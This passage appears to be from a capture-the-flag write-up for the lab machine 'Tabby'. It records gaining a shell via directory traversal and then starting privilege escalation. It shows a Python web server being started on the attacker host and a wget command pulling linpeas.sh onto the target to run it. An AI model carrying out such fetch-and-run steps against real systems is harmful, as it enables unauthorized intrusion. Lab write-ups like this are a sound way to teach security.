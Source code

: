 Now there is a nice shell!

![](/img/tabby/2020-12-09_07-46.png)

**Vulnerability Explanation:**

Directory Traversal / Service misconfiguration.

#### Privilege Escalation

Starting with my usual method of enumeration. I am going to open up a temporary webserver on my host so I can transfer files to the target.

| sudo python -m SimpleHTTPServer 80 |
| --- |

![](/img/tabby/2020-12-09_07-51.png)

Now, I am going to download linpeas.sh on to the target using wget.

| wget http://10.10.14.60/linpeas.sh |
| --- |

I am going to make the script executable and then run it.

![](/img/tabby/2020-12-09_07-54.png)
